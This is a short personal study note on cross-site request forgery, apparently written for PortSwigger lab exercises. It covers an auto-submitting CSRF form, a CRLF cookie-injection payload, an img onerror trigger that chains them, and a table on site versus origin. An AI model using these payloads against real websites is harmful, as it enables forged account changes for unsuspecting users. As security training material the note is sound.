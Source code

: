 ## basic 
same as [[tools  & setup#Burp Suit | burp suit professional]]

```html
<form method="POST" action="https://vulnerable-website.com/my-account/change-email">
	<input type="hidden" name="email" value="anything%40web-security-academy.net">
</form> 
<script> 
document.forms[0].submit(); 
</script>
```
## Bypassing CSRF token validation
### token tied to non-session cookie 
(like when they use two *seperate frameworks* ) : [portswigger](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)
#### csrfKey cookie injection 

> 1. `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`

#### using img tag for delivering the crafted link

>1. `<img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">`

## Bypassing SameSite cookie restrictions

#### What's the difference between a site and an origin? 

| **Request from**          | **Request to**                 | **Same-site?**        | **Same-origin?**           |
| ------------------------- | ------------------------------ | --------------------- | -------------------------- |
| `https://example.com`     | `https://example.com`          | Yes                   | Yes                        |
| `https://app.example.com` | `https://intranet.example.com` | Yes                   | No: mismatched domain name |
| `https://example.com`     | `https://example.com:8080`     | Yes                   | No: mismatched port        |
| `https://example.com`     | `https://example.co.uk`        | No: mismatched eTLD   | No: mismatched domain name |
| `https://example.com`     | `http://example.com`           | No: mismatched scheme | No: mismatched scheme      |

